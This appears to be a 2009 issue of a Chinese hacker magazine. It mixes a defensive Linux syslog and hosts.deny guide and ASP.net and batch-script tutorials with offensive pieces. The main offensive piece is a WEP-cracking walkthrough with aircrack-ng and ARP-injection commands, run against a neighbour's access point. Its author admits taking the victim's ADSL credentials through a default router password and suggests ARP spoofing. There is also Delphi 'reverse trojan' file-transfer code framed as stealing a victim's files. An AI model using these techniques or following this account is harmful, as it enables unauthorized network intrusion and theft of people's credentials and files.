Smashing Magazine 报道，微软透露了 IE 浏览器的最新版 **IE8.1**，其代号“鹰眼（Eagle Eyes）”，支持 Firefox 插件，可切换到 Gecko 和 Webkit 引擎，Acid3 测试得分跃升为 71/100（相比较下，Firefox 3.0.8 得分也是 71，Safari 3.1.2 为 75）。文章提供了大量截图，以证明所言不虚，它引用未具名消息来源称，微软并没有确定发布日期，但 BETA 版预计在夏天推出。

**风飘点评：** 雷吧？微软到底怎么办才算帅？汗一个先，不过巧的是这消息刚好在愚人节出现，我们就先不发表评论了，静观其变吧。不过个人认为 IE 不会太小视它，会消化不良的。

## 破译“黑匣子”：利用日志信息防范 Linux 入侵

- 从本文您可以学到：
- 1. 认识 Syslog 的相关知识
- 2. 利用日志信息阻止 Linux 入侵

如今，有关日志讨论的话题越来越多，其原因在于日志能够反映系统安全的“蛛丝马迹”，而这也一直是操作系统开发者和使用者关注的焦点。无论是黑客入侵行为还是管理员的误操作，都可能导致系统产生不可预见的错误。为了增加内容的鲜活度，本文所探讨的内容将集中在 Linux 平台下。同时，所有的案例也来自于第一线的实战总结。

### 一、安全第一步：Syslog 到底记录了什么内容

就像飞机需要有一个记录飞行日志的黑匣子一样，在管理 Linux 系统的过程中，系统也设置了一个专职记录事件的 Syslog 工具。通过 Syslog，系统就可以方便地记录谁、在什么时候、在哪里、做了什么事情，记录系统曾经发生的一切。

在 Linux 系统中，日志一般存储在 **/var/log/** 目录中，这里记录了系统维护和其它程序的日志文件。比如，当我们碰到类似的问题：“图形界面不能启动了！”、“网络设置不通畅！”等，只需要仔细查看 **/var/log/** 目录下的 Syslog 日志。当然，在保密要求很高时也可以转存到其它的服务器上。因此，这里应该是普通用户或管理员需要经常光临的地方了。

下面是 RedHat Linux 系统中比较常见的日志信息，以 **/var/log/boot.log** 为例，该文件记录了开启或者关闭系统的信息，记录了系统在引导过程中发生的事件，即 Linux 系统开机自检过程显示的信息。**/var/log/cron** 日志文件则记录了子进程的动作，前面加上用户、登录时间和 PID，以及派生出的进程的动作。此外，还有记录电子邮件活动的 **/var/log/maillog** 文件，记录系统安全信息的 **/var/log/secure** 等，如图1所示。

由此可见，Linux 中的 Syslog 日志系统有着重要的作用，它能够详细记录系统每天发生的各种各样的事件，管理员可以通过日志文件检查错误产生的原因或者追踪攻击者的踪迹。但众所周知，黑客在离开入侵系统前，一般都会做两件事情：“清日志”和“留后门”，所以一个入侵的系统日志文件也许不能信任，因为攻击者很容易修改它。

### 二、实事求是：忠实记录系统的一举一动

一般来说，Syslog 的主配置文件为 **/etc/syslog.conf**，用户可以直接在 Linux 中使用 VI 编辑器打开，如图3所示。

就像古代的史官会遵循一定的写作体例一样，Syslog.conf 也有一定的记录规则。这个文件指定了记录日志的行为，该程序在启动时查询配置文件，设置每个条目占一行，对每类消息提供一个选择域和一个动作域。其中，选择域指明消息的类型和优先级；动作域指明接收到一个与选择标准相匹配的消息时所执行的动作。比如，`kern.emerg /var/adm/kernel` 表示将内核的紧急情况信息记录在 **/var/adm/kernel** 文件中。

需要注意的是：可能有人会在 syslog.conf 里面设置：`*.* /var/log/everything`，尽管可以记录所有的日志，但要想在浩如烟海的日志中找到所需的日志信息，无疑是一件很头痛的事情。

图3 配置文件

为了方便用户操作，Syslog 提供了多种方式来记录系统发生的事情：

- 第一种是最普通的一般档案方式，用户可以指定档案路径与档案名称，但是必须以目录符号“/”开始，例如“/var/adm/maillog”表示要记录到“/var/adm”下面一个名为 maillog 的档案。
- 第二种方式是指定终端机或其它设备，如果将系统记录写到终端机，则目前正在使用该终端机的使用者就会直接在屏幕上看到系统信息。
- 第三种方式是指定的使用者：如果这些使用者正好上线的话，就会在终端机上看到。
- 最后一种方式就是指定远程主机。

在日常安全部署中，对于日志信息的管理通常采用两种方法：

- 第一种方法是将不同服务器的日志信息都存放在各自系统内；系统管理员对各服务器进行分散管理。
- 另一种方法是使用日志主机系统，它可以从其它主机收集日志，并将它们存放在同一个地方。通过日志主机系统，很容易使来自多个主机的日志集中起来管理，对其进行统一的管理、分析，甚至配合自动化工具进行实时的监控，有效提高管理的效率。

实际应用中，第一种方法往往是大多数系统管理员的常用选择，这种传统的管理方法在服务器数量较少时还能勉强应付，但在处理多主机状况时就要考虑日志主机系统了。

### 三、兵来将挡：利用日志信息阻止 Linux 入侵

由于日志具有审计与监测的功能，通过对日志信息的分析，就可以检查错误发生的原因，监测追踪入侵者及受到攻击时留下的痕迹，甚至还能实时地进行系统状态的监控。有效利用日志信息并对其进行分析与实时的监控管理，对于保证系统的安全性具有极为重要的作用。实际应用中，黑客对 Linux 攻击最常见的手段就是：采用各种方式不断地尝试登录到 Linux 系统中。下面，针对 Linux 网络管理中的一个典型案例进行分析。

### 第1步：事情的起因及现象分析

现在，在 Red Hat Linux 下，通过命令“last | more”查看在正常情况下登录到本机的所有用户的历史记录。因为 Syslog 是以 root 身份执行的，现在发现 Syslog 被非法动过，可能存在入侵事件。

### 第2步：日志分析

众所周知，Linux 中的“/var/log/secure”安全日志文件就详细记录了登入系统开放服务的文件，如 POP3、SSH、Telnet 和 FTP 等服务日志都会记录在此文件中。由于“/var/log/secure”记录的登录者信息有一致性，那么就可以查询到 Linux 服务器中登入的使用者账号与错误信息、IP 地址及登录错误被拒绝次数等。根据日志显示可以简单地判断哪些是合法的登录，哪些是非法的登录。

通过日志记录分析，很快找到了入侵者留下的蛛丝马迹：他的 IP 地址是 211.130.162.158。得到 IP 地址后，使用 WHOIS（http://www.internic.net/whois.html）对相关信息进行分析。

### 第3步：查看 hosts.deny 和 hosts.allow 文件

Linux 提供一种灵活有效的方法来实现对服务请求用户的限制，从而可以在保证安全性的基础上，使可信任用户使用各种服务。在“/etc”目录下有两个文件，即 hosts.deny 和 hosts.allow，通过配置这两个文件，可以指定网络中哪些计算机可以使用这些服务，哪些不可以使用这些服务。

配置这两个文件是通过一种简单的访问控制语言来实现的，基本格式如下：

```text
程序名列表:主机名/IP地址列表
```

例如，“ALL:211.130.162.158”，表示接受或拒绝 IP 为 211.130.162.158 的计算机运行系统程序或服务。

### 第4步：下载 RWSecure 压缩包

RWSecure 实际上是一段小巧的脚本程序，可以根据实际情况配置好这段脚本，然后通过 Linux 的自动运行 crontab（操作每个用户的守护程序和该执行的时间表）功能设定脚本的运行时间。程序下载地址为：http://linux.softpedia.com/progDownload/RWSecure-Download-10797.html。该压缩包有 rwsecure.info 和 rwsecure 两个文档。其中，rwsecure 文档的内容如图4所示。

> 小知识：RWSecure 的作用
>
> 运行 RWSecure 后，可自动分析“/var/log/secure”里记录的非法用户登录日志，并可以根据用户设定登录失败次数。一旦某个用户的 IP 登录次数和用户设定登录失败次数相符，RWSecure 将把该 IP 地址写入 hosts.deny 文件中，达到阻止该 IP 对 Linux 系统的攻击。

### 第5步：解压缩 RWSecure 文件包

在 Linux 系统中，使用 tar 命令解压缩 RWSecure 压缩包到系统的任意目录，该压缩包有 rwsecure.info 和 rwsecure 两个文档。参考命令为：“tar xvf rwsecure.tar”，然后使用 VI 编辑器设置 rwsecure 文档参数，具体配置如下：

```text
##### 设定用户登录失败次数，默认次数为 3 次
##### Configure number of attempts before blocking
attempts=3

##### 指定安全日志路径，默认为“/var/log/secure”
##### Specify your securelog path
secureLogPath=/var/log/secure

##### 指定 /etc/hosts.deny 路径，默认为“HostsDenypath=/etc/hosts.deny”
##### Specify location of hosts.deny
HostsDenypath=/etc/hosts.deny
```

图4 rwsecure 文档的内容

实际应用中，可将 rwsecure 脚本文档加入到 crontab 中自动运行，例如设定为每 5 分钟分析一次安全日志。如果脚本在系统中运行出错，可修改 rwsecure 文件的第 28～30 行。一般问题出在第 29 行，由于其为空行所以报错。解决方法为：**将第 29 行空行删除，将原 28 和 30 行代码合并即可**（这里的行数以 rwsecure 原始文件的行数为准）。

### 第6步：查看非法登录信息

上述脚本自动运行后，将会根据用户设定自动将非法登录 IP 添加到 `/etc/hosts.deny` 文件中，同时也会在 hosts.deny 文件看到被阻止的非法登录 IP 地址和详细的注释，如下所示：

```text
ALL:82.140.81.26    # Added by rwsecure on Mar 10 13:18:01 2009
ALL:211.78.142.116  # Added by rwsecure on Mar 13 08:42:01 2009
ALL:211.70.102.10   # Added by rwsecure on Mar 15 19:42:01 2009
ALL:202.10.136.124  # Added by rwsecure on Mar. 16 05:42:01 2009
```

日志记录了系统每天发生的各种各样的事情，这些日志信息是保障系统安全过程中的重要组成部分。通过上面的设置，可以对入侵者实施相对有效的防护。而且，这也是一种安全防范思维的延展，即利用日志里的“蛛丝马迹”，配合安全小工具，轻松解决 Linux 网络管理员的后顾之忧。不过，需要注意的是，在安全实践中，一些日志工具也可能成为攻击者的一个目标，他们会想方设法来清除 Syslog 所产生的日志。因此，在实际防范中，就需要知己知彼，这样就能形成一道稳固的安全防线了。

> **编辑点评：**
>
> 日志的作用不用多说大家都知道，不过很多人没有真正地重视它。通过本文相信你对 Linux 下的日志系统有了一个更深刻的了解了吧，特别是配合日志的一些小应用，有时候是能够解决大问题的。

## 详细讲解无线 WEP 加密破解三步曲

从本文可以详细了解无线 WEP 加密破解。

从前面几期杂志看到了几章关于无线安全的文章，但是没有看到最基础的一些破解过程，估计一般的小黑最郁闷的就是在抱着本本搜到信号以后，望着某个无线 AP 的连接密码发呆吧？这篇文章我就给大家详细讲解下一般的无线加密破解全过程，先从破解无线加密环境的搭建开始吧！

### 一、无线破解环境的搭建

在破解开始之前，我们来检查下硬件装备：笔记本、网线、网卡、定向天线、带中继的无线路由器。当然还有软件装备：Wifihopper、BT3.0 系统、16 进制编码转换器……

以上设备，有些是必须的，有些则可有可无。下面我们用这些东西来搭建我们的战斗平台！首先搭建的是操作平台——BT3 Linux，这一步是最基础的。当然，无线破解也可以在 Win 平台下进行，不过效率和工具远不及它多，我们熟知的 Cain 就是 Win 平台下破解的一个利器，但是需要特定的网卡支持，这里我们就不多说了。

**BT3 全称 BackTrack 3.0 Linux，是由 Remote-Exploit.org 出品的黑客攻击专用 Linux 平台，如图1。**系统中涵盖了大量的破解工具和审计工具，是现在无线破解的主流操作平台，它的安装方式多样，也极为方便。

- BT3 ISO 镜像的纳米盘下载链接：http://www.anywlan.com/Soft/2008/660.html
- BT3 破解版全套工具下载链接：http://www.anywlan.com/Soft/2008/668.html
- BT3 硬盘引导程序请见本期光盘

以上是我们要用到的安装镜像和程序，BT3 可以用 VM 加载安装，这个是不想装双系统的朋友们可以选择的方式。安装方式和安装其它虚拟机系统是一样的，安装完毕后，待用。

- A. 获得“硬盘安装引导程序”和 BT3.0 ISO 镜像文件。
- B. 先把 BT3 的 ISO 文件解压，把 boot 和 BT3 两个文件夹移到 C 盘根目录，注意，BT3 一定要改成大写！
- C. 把“硬盘安装引导程序”中的 menu.lst 这个文件复制到 C 盘根目录。
- D. 双击“硬盘安装引导程序”中的 xp_vista_grub4dos.exe 自动安装，然后退出。
- E. 开机选择 grub4dos 项进入 BT3 硬盘版。

安装还是很简便的，关键的是，用以上“硬盘安装引导程序”安装 BT3，不会破坏原有的系统分区和资料。VM 虚拟机 BT3 系统只能支持 USB 接口的无线网卡，而硬盘引导的 BT3 系统，各种接口都支持。所以熟悉后还是推荐硬盘安装 BT3 系统，之前先用 VM 系统来练习吧！

系统安装完毕了，下面我们来看看网卡，这可不是什么网卡都支持破解的，先给大家推荐一些现在主流使用的破解网卡，都完美支持 BT3 系统，比如：卡皇、卡王、魔翼、神卡以及 Win 下的一款网卡——瑞银。

这些都是现在无线破解中口碑比较好的一些网卡。定向天线和中继无线路由一般初学者不一定用得上，暂且不提。至此，我们的破解环境和设备的东西就算完成了。我们用到的环境是：联想 S10 超便携笔记本，WinXP SP2 系统下 VM+BT3.0、神卡，下面我们进行破解的第二步。

### 二、搜索 AP

实际上这一步很简单，但是还是有必要给大家讲解下，因为受信号的影响，比如 SSID 为“ChinaNet”的大家就不要去破解了，那个是电信的无线猫，破解了也无济于事！还有就是在破解点搜索到的信号比较弱，比如时断时续的 AP，也不要再进行下一步。

图2

在 BT3 里面我们测试下网卡，扫描下周围的无线 AP，如图5，我们可以看到，扫描到了刚才的 AP，这些 AP 的信道、加密状态我们都可以一目了然。

其实，在 BT3 里面有一款工具可以实现傻瓜式破解，效果也不错，这个工具叫 spoonwep。但是我觉得，要学懂就应该从最基础的开始学起，所以我们来看 aircrack-ng 的破解方式。这些工具 BT3 里面都有集成，不用再去下载安装了。

首先打开终端，看看我们的网卡标示符号，这里用到第一个命令：`bt# ifconfig -a`，如图6。这时我们可以在终端里面看到网卡的标示为 **eth1**，这里的标示可能会因网卡不同而不同，以下命令的返回信息皆以我这里的为准了。

图3

图6

我在 XP 系统下扫到了几个 AP，大家可以看到其中有个 AP 的 SSID 为“1”，如图2。那个信号还算可以，估计是在我楼上或者对门，呵呵。同时我们也看到它启用了连接加密，方式为 WEP 加密，下面我们就来试着破解它的连接密码。

### 三、开始破解

启动 BT3 虚拟机，输入用户名 **root**、密码 **toor**，再键入命令 **startx** 进入图形化界面。下面的步骤很重要，直接关系到你能不能破解，那就是在 VM 下接入 USB 无线网卡。

首先启动 VM 中的 BT3，然后插上无线网卡。接着选择虚拟机菜单栏的“虚拟机”→“可移动设备”→“USB 设备”，勾选无线网卡选项，如图3。我的网卡、芯片是 ZyDAS，大家测试的时候要注意，可能网卡不同，选项内容也会不同。

勾选后，如果虚拟机的状态栏出现了 USB 设备图标，如图4，则说明此时网卡已经被 BT3 接管了，可以开始我们下一步的破解了。

图4

图7

图5

图8

查看到了标示后，我们用第二个命令将网卡的监听模式打开：`bt# airmon-ng start eth1 6`，其中的 6，就是之前我们探测到的信道，写上可以提高精确性，不写也可以，如图7。

```text
bt# airodump-ng -w ying --channel 6 eth1
```

- `-w ying`：抓包参数，这里我们把抓到的包命名为 ying；
- `--channel 6`：信道参数，这里我们的信道是 6。

回车后我们就可以看到抓包画面了，如图8。

从图8中我们可以看到信号比较好的 SSID 为“1”的 AP，数据包增长比其它的要快很多，它的 MAC 地址是 **00:21:27:2C:37:CE**。在图的下半部分，我们可以清楚地看到在这个“1”的 AP 下，此时正有一个客户端在上面，也就是说它下面正有一台机子在上网，如图9。这个对我们是很有用的，因为有客户端的 AP 更加好破解，没有客户端的话也可以破解，不过要麻烦得多了。

有了这篇文章的基础，以后我再给大家说如何破解无客户端的 WEP 加密连接，和如何破解 WPA 加密连接的方法。现在我们来看看如何利用这个客户端加快破解速度。为了加快数据包的获取速度，我们要使用 arprequest 注入攻击，这个对 WEP 攻击很重要，也很实际，可以大大地提高抓包数量和破解速度！命令如下：

```text
bt# aireplay-ng -3 -b AP's MAC -h Client's MAC -x 1024 eth1
```

- `-3` 是指采用 arprequest 注入攻击方式。
- `-b` 后跟要破解的 AP 的 MAC 地址。
- `-h` 后跟监测到的 AP 下客户端的 MAC。
- `-x` 为每秒最多发包数量。

我们可以很明显地在图10中看到，注入攻击开始后，抓包的数据（Data）量急剧上升。

剩下的工作就是打开 aircrack-ng 进行同步破解，抓包的让它继续抓，注入的让它继续注入，不要停止。我们再打开一个终端，输入命令准备同步破解。

一般来说，破解 WEP 加密的时间都在 20 分钟左右，最快的 3 分钟即可。这里我们说的破解时间是指同步破解的时间，而不是网上一些教程讲的那种在别的地方抓了几个小时的数据包，然后拿回来本地破解。那样可能 1 至 3 分钟就搞定了，不过我不认为那种方式是无线入侵。我们输入以下命令来对抓到的数据包进行密码破解：

```text
aircrack-ng -x -f 2 ying-01.cap
```

- `-x` 是指暴力破解模式。
- `-f` 是指密码的复杂程度为 2。

命令后面的 ying-01.cap 就是正抓的包的名字，可能看到这里大家会奇怪，怎么是 ying-01.cap 呢？之前指定的名字不是 ying 吗？应该是 ying.cap 才对啊！其实不然，系统会自动修改我们的数据包名称，建议在使用此命令前使用“ls”命令查看一下具体的包名称。

破解的时间取决于注入包的数量、网卡的支持度、电脑的内存和 CPU。输入破解命令后，就开始破解了，如图11。

我破解的这个 AP，不到一分钟密码就出来了，可能是密码比较简单的原因吧！如图12。

我们可以看到连接密码是 74716，赶紧去用此密码连接上网吧！我们的破解到此就完成了，另外，抓到的 cap 包不要扔掉哦。

### 四、总结

最后，我不得不说，未必密码出来了就可以免费上网，这里还存在对方没有开启 DHCP，就获取不到 IP 的情况。还有，对方开启了 MAC 过滤或信号衰弱等都可能使你上网失败。这些以后我都会讲到，请大家期待一下！

上面我破解出来的 AP 可以直接上网，而且路由的管理密码都是默认的，看了一下是 ADSL 用户，顺便把拨号用户名和密码搞了下来。说不定在深层次的社工下，能用到呢。不过蹭人家网了，还是有点感恩之心，不动它了。既然到了对方内网，选择 ARP 欺骗还是嗅探就随你了。由此我们也可以看出，无线的前景虽然十分广阔，也为我们带来了便利。但是一个企业或者单位的无线壁垒被攻破，可以说把最薄弱的东西都暴露出来了！现在可以肯定地说，无线的 WEP 加密完全没有作用，新的 WPA 加密也被攻破了，无线安全的道路还很长哦，大家一起努力！

找个风和日丽的日子，骑着自行车背着本本，到处去破解一下，也是一种消遣方式啊，但是不要做一些触及道德和法律的事情。我的 ID 是夜双，欢迎大家到论坛的“黑软交流”版块向我索取有关无线方面的资料，我将乐于为大家寻找！

> 编辑点评：
>
> 随着本本价格的大众化，无线上网开始流行。大家在享受无线上网时，是否关心过安全问题呢？是否认为没有连线连接电脑，别人就无法窃取你电脑中的东西了呢？看看这篇文章，先了解下无线破解吧。

看看《黑客手册》0904 期的“窗外”，那里会找到更好的东西哦！

## 张宇语

为了各位读者能够快速、明确地找到自己需要的文章，从这期起将编程版块分为两类：编程源起和编程上路。编程源起为大多数初级入门的读者准备，而需要提高或者需要更多技术含量的可以跳过前者，直接至编程上路。

各位作者也可以按此分类来稿，编程源起要通俗易懂，说明编写思想，要求条理清晰，并提供关键代码，对代码运行注释，最好务必提供完整代码；编程上路则在满足前面的要求之上可适当增加代码。两类中的代码都需要添加详细注释，以便读者能够快速理解。

顺便留下本小编 mail：zy_yhy_9761@yeah.net，来稿、交流，一切不拒。（*_*）嘻嘻……

PS. 由于篇幅限制，代码部分敬请仅提供关键的代码并注释即可，代码过长不宜出现在文章中，同时作者务必提供完整代码，我们会将它放在光盘中。

## 从 0 开始学习 Asp.net

图4ler[5.c.T]

- 从本文您可以学到：
- 1. 了解 Asp.net 的网站结构
- 2. 了解 VS2008 开发平台的使用

Asp.net 作为微软主推的基于 .net 平台下的 Web 开发技术，自然有很强的竞争性和强大的功能，而且 Asp.net 相关技术也随着 .net 平台版本框架的升级而更加地强大和健全。所以在此背景下，我觉得有必要知道或者说是了解这门技术。下面我们便来揭开 Asp.net 神秘的面纱吧。

一门强大的技术当然会有一个好的 IDE（集成开发环境的缩写，全称：Integrated Development Environment，它是辅助开发程序的应用软件）来支撑。VS2008 作为一个成熟的产品，具备了很多强大的功能，例如 IIS 的调试等，VS2008 下载地址我会在本文结尾的地方给出，安装也是很简单的，只需一路点击“下一步”就可以了。当安装完成之后，我们即可打开 VS2008 来开发我们想要的东西了。

介绍完了最基本的文件层次结构，下面我们来实际地完成一个最简单的 Asp.net 程序。首先在 VS2008 中打开 default.aspx 文件，找到页面中间的 `<div></div>` 块，我们所有的代码都会在这个 div 块中开始编写，然后打开 VS2008 的工具箱，如图 3 所示。

这里我们用显示“Hello world”来作为演示。首先打开 VS2008，新建一个网站，如图 1 所示。

我们选择现在最流行的框架版本（.net framework 2.0），输入我们的网站名为 Helloworld。下面找到 VS2008 靠右边的解决方案管理器，可以看到如图 2 所示的结构。

下面我分别对图 2 中所列的各层结构做一个解释：

- **App_Data**：是 Asp.net 自带的一个采用了特殊权限的文件夹，这个文件夹比较适合放置类似于 MDB 文件之类的东西；当在网站运行的状态中，此文件夹是不允许通过 HTTP 访问的。
- **Default.aspx**：一个很简单的 Asp.net 页面，包括头文件定义和一个 Form 表单，而且此 Asp.net 只允许一个 form 表单存在。
- **Default.aspx.cs**：Default.aspx 文件的后台编码文件；所有涉及业务逻辑的代码都在此文件中编写；且 Asp.net 是事件编程模型，即一切事件、所有的动作触发都是通过事件来触发的。比如在 Asp.net 中，给 Page_Load 事件（它是整个页面的核心事件；当页面被载入的时候必须触发的事件之一）。
- **Web.config**：站点配置文件，主要存放 Asp.net 网站程序一些配置；比如数据库连接字符串、程序的认证方式、错误页面的配置等。

这里面罗列的是一些我们在开发中会用到的控件。首先我们单击编辑器下面的切换按钮，转换到设计模式下进行界面开发。向页面拖入一个 TextBox 和一个 Button，拖入后可以选择控件，右键单击属性菜单，你可以在菜单中设置关于这个控件的一些常用属性，如图 4 所示。

在这些属性中我们可以设置 ID 和 Text 属性，相信当你设置后会看到有什么变化的。设置完后直接在设计模式下双击这个按钮，VS2008 会自动在后台编码文件中生成关于 Button 的单击事件，如图 5 所示。

下面我们就可以在这个事件中编写需要完成的业务逻辑了。在事件中输入以下代码：

```csharp
public partial class _Default : System.Web.UI.Page
{
    protected void Page_Load(object sender, EventArgs e)
    {
    }

    protected void Button1_Click(object sender, EventArgs e)
    {
    }
}
```

```csharp
Code:
string strhello = this.TextBox1.Text;
// 声明一个 string 类型的变量，名字叫做 strhello。而 TextBox1 则是我们
// 刚才拖入的 TextBox 控件的名称，.Text 是指取得在此文本框中输入的内容。
Response.Write(strhello);
// 直接在页面输出 strhello 的内容。
```

代码编写完毕，可以通过两种方式运行此应用程序：

- 1、调试运行：此运行模式可以允许我们插入断点进行调试运行，相信学过编程的朋友应该对调试不会陌生。如果你是新建的网站，VS2008 会提示你修改 web.config 文件，因为原来的 web.config 是不允许 Web 应用程序被调试的，单击“是”即可让程序支持调试运行。
- 2、运行：即不调试运行，也就是在网站服务器上运行的状态。

最终运行效果如图 6 所示。

这就是我们的第一个 Asp.net 应用程序，在这节中，我们主要对最基础的 Asp.net 知识进行了相关的讲解，了解了 Asp.net 网站的结构。希望此文对所有对 Asp.net 感兴趣的新手朋友有所帮助。

另外，由微软提供的 Visual Studio 2008 专业版（90 天试用版）下载地址如下：

http://www.microsoft.com/downloads/details.aspx?familyid=83C3A1EC-ED72-4A79-8961-25635DBD192B&displaylang=zh-cn

（文中所涉及的相关代码已经收录在本期光盘中）

> 编辑点评：入门知识，学习 Asp.net 的同胞们一定要看哦！

## 关于 U 盘恢复精灵的一些改进

- 从本文您可以学到：
- 1、利用 VBS 及批处理改进源程序

在 2009 年 03 期的杂志上看到一篇李勃杰的“U 盘恢复精灵”的编程文章，经本人使用后发现一些问题，其原程序的不足之处在于获得 U 盘磁盘列表用的是穷举，在我的机器上 U 盘盘符是 K，使用其程序时明明存在 U 盘，却提示 U 盘不存在。

关于不能正常显示盘符的问题，处理方法很简单。原文中磁盘遍历采用的是穷举法，本人 VB 基础比较差，但是寒假时分析过几个 vbscript 脚本病毒，其中“爱虫”病毒在遍历磁盘时采用了一个 for 循环，代码如下：

```vb
Private Sub Form_Load()
    Dim fso, dc, d
    Set fso = CreateObject("scripting.filesystemobject")
    Set dc = fso.drives
    For Each d In dc
        If d.drivetype = 1 And d.isready Then
            List1.AddItem "该计算机上的U盘是" & d
        End If
    Next
End Sub
```

我将这段代码覆盖其原 Form_Load 过程下的代码后，这样便可以正常显示盘符了。

另外，文章在最后提到的处理效率或 CPU 使用率高的问题，其实代码是因为直接调用了 Attrib 命令，而且是直接对整个磁盘进行的恢复操作，因而其效率是有问题的。虽然在 VB 下遍历得到磁盘下的隐藏文件夹应该很简单，再更改其 Attribute 值为 0 即可恢复正常属性，但本人觉得此功能用批处理更简单。下面的代码可以显著提高其执行的效率，内容如下：

```bat
@echo off
echo.
color 0a
title 隐藏文件显示改进版 by 小三
set /p drive=请输入要处理的磁盘，并按回车键结束:
for /f "delims=" %%i in ('dir /ahd /b %drive%\.\') do attrib %drive%\%%i -s -h /s /d
echo 已处理完毕！按任意键退出……
pause>nul
```

这个批处理代码由于使用了 for 循环遍历得到隐藏文件夹，比直接使用 attrib 命令效率高很多，大家可以亲自试一下！不过这个代码还是有些问题的，那就是对含空格的文件夹不能正常处理，会返回“参数格式不正确”的错误。当然了，在第三期的文章里所提供的代码中也存在这样的问题，原因在于命令行下对含空格的文件夹及文件都不能正常处理。直接使用命令的话处理很简单，在文件夹或文件名外加双引号即可，如 `attrib F:\"课 件" -s -h /s /d`，但是由于在该批处理中引用的是变量直接加双引号，这样会按照字符串处理而不是要处理的文件夹。这个问题本人尚未解决，望各路高手可以指点一下！

> 编辑点评：提出了一个很好的问题，高手们快来解决啊！

## 反弹木马编写之文件传输

- 从本文您可以学到：
- 用 NMSTRM 组件实现文件收发

在前面的文章中，我们介绍了如何实现获取对方计算机的文件列表，在获得了对方的文件列表之后，如果发现对方有不错的文件或者资料，我们如何下载到本地呢，这个就是本文的讲解重点。

诸如早期的网络神偷就带有文件列表获取和文件传输功能，这里我们就来使用 DELPHI 进行相关功能的编写。

### 发送端

要在 DELPHI 中实现文件的传输有很多方法，比如使用 SOCKET 组件进行编写，但是笔者觉得这两种方法过于繁琐，这里使用一个非常简单的 VCL 组件快速实现网络文件的传输，它就是 NMStrm 组件和 NMStrmServ 组件。

首先，我们来编写文件的发送端，这里使用到了 NMStrm 组件，程序界面比较简单，如图 1 所示，代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  MyFStream: TFileStream;
begin
  if OpenDialog1.Execute then   //打开文件
  begin
    NMStrm1.Host := Edit1.Text;  //得到主机IP地址
    MyFStream := TFileStream.Create(OpenDialog1.FileName,
      fmOpenRead);   //打开文件
    try
      NMStrm1.PostIt(MyFStream);  //发送文件
    finally
      MyFStream.Free;
    end;
  end;
end;

procedure TForm1.NMStrm1PacketSent(Sender: TObject);
begin
  Form1.Caption := IntToStr(NMStrm1.BytesSent) + '/' + IntToStr(NMStrm1.BytesTotal);
end;
```

这里实现文件传输的流程，其实就是首先通过 Create 方法创建一个 TFileStream 对象，然后使用 NMStrm1 的 PostIt 方法发送文件，最后使用 Free 方法释放文件流。

### 接收端

接着，我们来进行文件接收端的编写，首先给出程序界面，如图 2 所示。

这里我们使用了 NMStrmServ 组件实现文件接收，并使用一个 SaveDialog 对话框组件来实现文件的保存，代码如下：

```pascal
procedure TForm1.NMStrmServ1MSG(Sender: TComponent; const sFrom: String;
  strm: TStream);                  //数据到达
var
  MyFStream: TFileStream;
begin
  ListBox1.Items.Add('数据到达');
  if SaveDialog1.Execute then      //打开保存对话框
  begin
    MyFStream := TFileStream.Create(SaveDialog1.FileName, fmCreate);
    //创建文件
    try
      MyFStream.CopyFrom(strm, strm.Size);  //读取全部数据
    finally
      MyFStream.Free;
    end;
  end;
end;

procedure TForm1.NMStrmServ1Connect(Sender: TObject);
begin
  ListBox1.Items.Add('有主机连接！');
end;

procedure TForm1.NMStrmServ1Disconnect(Sender: TObject);
begin
  ListBox1.Items.Add('失去连接！');
end;
```

程序接收文件的流程就是首先在 NMStrmServ1MSG 事件中实现捕获数据，然后通过 TFileStream 的 Create 方法创建一个文件流对象来保存数据，最后通过文件流的 CopyFrom 方法从 TStream（这个对象由系统自己提供，其中包含了到达的数据）中获取数据，在接收数据完毕后调用 Free 方法释放文件流。

### 运行结果

这样我们就通过最少的代码实现了对二进制文件的数据收发。在代码编写完毕之后，即可单击 F9 运行两个程序，可以看到程序界面如图 3 所示。

此时，在文件发送端中填写好目标主机的 IP 地址，然后单击发送按钮，即可在标题栏看到文件的发送进度，如图 4 所示。

而在文件接收端，当文件接收完毕之后则会弹出一个文件保存对话框提示保存文件，如图 5 所示。

这样就简单实现了文件的收发操作，读者朋友在理解了本文的基础上，可以使用 DELPHI 中其它的 VCL 组件进行文件收发程序的开发。笔者这里只是考虑到使用最简单的代码实现文件收发的功能，这样也就是最大限度地利用了 DELPHI 中 VCL 组件的开发便利性和快捷性！

（文章中所涉及的相关代码及工具都已收录在本期光盘）

**编辑点评：**
C/S 模式文件收发程序就这么简单被实现了，还不赶快添加自己的代码，做成自己的“敲门暗器”！

## 漫话溢出 IV

作者 OrpheusV

- 从本文您可以学到：
- 了解 CORE IMPACT、Immunity Canvas 和 Metasploit 的基本使用

劳动是人与动物的根本区别，而制造和使用工具也是人与动物的区别。我看这话不假，从最初的以原始方式编写 shellcode，到现在可以用工具简化 shellcode 的编写过程，甚至直接生成特定功能的 shellcode；还有从原来主要靠 C 写溢出程序，到现在的在某个 framework 下写溢出程序，溢出的相关技术在不断进步。技术进步，人当然也不能落后。今天我就来介绍下如何在特定的 framework 下写溢出程序，并分析下这些 framework 内部结构，然后比较它们的特点。

> self.logHi("Let's set out on our journey.")

上面这句开场辞一看就可以联想到 Python 语言，不过 logHi() 是什么呢？这又是什么 framework 下的呢？你也许并未在这个 framework 下写过溢出程序，不过，如果你看过《漫话溢出 I》，那么肯定对 CORE IMPACT 这款工具有一定印象。即使你没用过，它的价格也足以给人强烈的震撼。尽管其功能是否有宣传的那么好还有待考究，不过它既然敢卖出这个价钱，肯定还是有点真本事的，事实也是如此。

```python
Example1.py
### A Simple HTTP Banner Grabber
### 用 XML 对模块的相关信息进行描述，相关信息包括模块的参数、介绍等，类似于填空。
__xmldata__ = """
<entity class="module" type="python" name="模块名">
<property type="string" key="author">作者</property>
<property type="string" key="brief">简介</property>
<property type="string" key="category">分类</property>
<property type="string" key="version">版本</property>
<property type="xmldata" key="Description" readonly="1">
    <para>描述</para>
</property>
<property type="string" key="classname">HttpBannerGrabber</property>
<property type="parameters" key="parameters">
    <property type="string" key="TARGET">192.168.0.1</property>
    <property type="uint16" key="PORT">80</property>
</property>
<property type="parameters" key="parameter_description">
    <property type="string" key="TARGET">The host where the HTTP server is running.</property>
    <property type="string" key="PORT">The TCP port where the HTTP server is listening.</property>
</property>
<property type="string" key="TargetClasses" readonly="1">host</property>
</entity>
"""
```

```python
import sys
import httplib
import re
### 引入 impact 提供的库文件
from impact import modulelib
### 下面的类名要与 XML 描述中的“classname”的值一致。
### 所有的模块都应继承 impact.Module 或是其子类。
